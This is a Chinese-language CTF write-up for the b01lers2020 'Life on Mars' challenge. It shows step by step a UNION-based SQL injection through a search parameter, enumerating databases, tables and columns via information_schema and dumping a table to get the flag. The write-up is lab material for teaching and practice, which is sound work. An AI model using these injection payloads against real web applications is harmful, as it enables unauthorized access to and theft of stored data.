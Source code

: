 ```yaml
---
title: '[b01lers2020]Life on Mars'
date: 2024-07-15 20:06:58
tags: sql注入
categories: 刷题笔记
---
```


## [b01lers2020]Life on Mars（sql注入）

我们打开页面，发现啥信息都没有，我们随便点击一个地名抓包看看

![image-20240715203732986](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202407152037033.png)

我们访问/query?search=amazonis_planitia

<img src="https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202407152039757.png" alt="image-20240715203901604" style="zoom:150%;" />

我们进行sql注入

<!--more-->

先查询数据库

```
?search=amazonis_planitia union select 1,database();
```

得到库名aliens

![image-20240715204104392](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202407152041533.png)

再查询表名

```
?search=amazonis_planitia union select 1,group_concat(table_name) from information_schema.tables where table_schema="aliens";
```

![image-20240715204341022](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202407152043093.png)

看不出啥玩意

我们猜测可能还存在其他的库

```
?search=amazonis_planitia union select 1,group_concat(schema_name) from information_schema.schemata;
```

![image-20240715204501018](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202407152045247.png)

果然还存在其它的库information_schema,alien_code,aliens

我们查询alien_code的表

```
?search=amazonis_planitia union select 1,group_concat(table_name) from information_schema.tables where table_schema="alien_code";
```

![image-20240715205305130](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202407152053383.png)

我们查询code的字段

```
?search=amazonis_planitia union select 1,group_concat(column_name) from information_schema.columns where table_name="code";
```

![image-20240715205356863](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202407152053018.png)

我们查询code字段的内容

```
?search=amazonis_planitia union select 1,group_concat(code) from alien_code.code;
```

得到flag

![image-20240715205545439](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202407152055505.png)
